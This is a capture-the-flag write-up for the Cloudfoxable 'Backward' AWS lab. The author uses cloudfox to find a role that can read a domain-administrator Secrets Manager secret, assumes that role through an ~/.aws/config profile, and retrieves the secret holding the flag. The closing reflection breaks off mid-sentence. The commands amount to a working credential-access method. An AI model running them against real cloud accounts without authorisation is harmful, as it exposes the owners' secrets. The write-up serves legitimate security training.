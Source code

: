 ## Solution
To find the flag for “Cloudfoxable 5 - Backward,” I started by identifying who had access to the secret resource `arn:aws:secretsmanager:us-west-2:ACCOUNTID:secret:DomainAdministrator-Credentials-SUFFIX`. This was the first critical step.

I used the following command to search for any permissions related to secrets:

```bash
cloudfox aws -p cloudfoxable permissions -v2 | grep -i secret
```

This command returned the following output, showing that the role **Alexander-Arnold** had access to the secret:

```
│ Role │ Alexander-Arnold │ Managed │ corporate-domain-admin-password-policy │ Allow │ secretsmanager:GetSecretValue │ arn:aws:secretsmanager:us-west-2:477892879619:secret:DomainAdministrator-Credentials-9TWS9X │ No │
```

Next, I proceeded to assume the role of **Alexander-Arnold**. To do this, I added the profile to my `~/.aws/config` file, like so:

```bash
vim ~/.aws/config
```

I added the following profile configuration:

```
[profile alexander-arnold]
region = us-west-2
role_arn = arn:aws:iam::477892879619:role/Alexander-Arnold
source_profile = cloudfoxable
```

After saving the configuration, I verified that the role assumption was successful by executing the following command:

```bash
aws --profile alexander-arnold sts get-caller-identity
```

The output confirmed that I was now assuming the correct role:

```json
{
    "UserId": "AROAQWHCQAQBRYHVXNLAR:botocore-session-1743902759",
    "Account": "477892879619",
    "Arn": "arn:aws:sts::477892879619:assumed-role/Alexander-Arnold/botocore-session-1743902759"
}
```

Now that I had assumed the role, I was able to retrieve the secret value. I executed the following command to get the secret:

```bash
aws --profile alexander-arnold secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:us-west-2:477892879619:secret:DomainAdministrator-Credentials-9TWS9X
```

The output included the flag value:

```json
{
    "ARN": "arn:aws:secretsmanager:us-west-2:477892879619:secret:DomainAdministrator-Credentials-9TWS9X",
    "Name": "DomainAdministrator-Credentials",
    "VersionId": "6F50E10B-9EA3-427A-AAD8-DEB9D68C5EF7",
    "SecretString": "FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2025-02-12T09:26:46.917000-05:00"
}
```

The flag was: **`FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}`**

## Reflection

* **What was your approach?**
  My approach was methodical: first, I identified who had access to the secret, then I assumed the necessary role to retrieve it. Using AWS CLI commands and proper configuration in my `~/.aws/config`, I was able to navigate the permissions and access the secret value.

* **What was the biggest challenge?**
  The biggest challenge was ensuring I correctly assumed the role. There were several steps involved in setting up the profile in the `aws/config` file and verifying that I was using the correct permissions to get the secret.

* **How did you overcome the challenges?**
  I overcame the challenge by carefully reviewing the permissions output from the `cloudfox` command and validating that I was setting the profile and executing the commands correctly. The process required attention to detail and validation at each step.

* **What led to the breakthrough?**
  The breakthrough came when I successfully assumed the role and used the AWS CLI to retrieve the secret. Once I verified that the role assumption worked, retrieving the secret was a straightforward step.

* **On the blue side, how can the learning be used in the future?**
  This experience reinforced the importance of understanding IAM roles, secret management, and AWS CLI configurations. In the future, this approach can be applied in other penetration testing scenarios where accessing resources with restricted permissions is necessary. The knowledge gained in handling AWS IAM roles and secrets will be crucial for navigating complex environ